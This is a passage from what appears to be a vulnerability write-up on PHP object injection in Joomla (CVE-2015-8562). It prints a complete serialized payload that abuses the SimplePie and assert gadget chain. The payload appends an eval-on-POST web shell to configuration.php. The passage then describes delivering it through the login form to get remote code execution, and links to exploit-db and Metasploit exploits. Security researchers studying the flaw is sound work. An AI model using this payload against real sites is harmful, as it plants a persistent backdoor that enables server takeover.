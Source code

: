 ```php
s:2:"HS":O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:125:"file_put_contents('configuration.php','if(isset($_POST[\'test\'])) eval($_POST[\'test\']);', FILE_APPEND) || $a='http://wtf';";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}
```

Now we have everything necessary to develop a working exploit. Putting stuff together, we can send the exploit using the login form, this will store the malicious object into the database.
Then we can follow the redirect from the first response and the payload will be retrieved from the database and unserialized from the `session_start()` function and .. we got RCE!


## POC
<iframe width="480" height="360" src="https://www.youtube.com/embed/Z-GbT5YB-Tc" frameborder="0"> </iframe>

## Exploit
- https://www.exploit-db.com/exploits/47465
- https://www.exploit-db.com/exploits/47539 (Metasploit)

## References
- https://nvd.nist.gov/vuln/detail/CVE-2015-8562
- https://blog.ripstech.com/2018/woocommerce-php-object-injection/
- https://www.php.net/manual/en/ref.session.php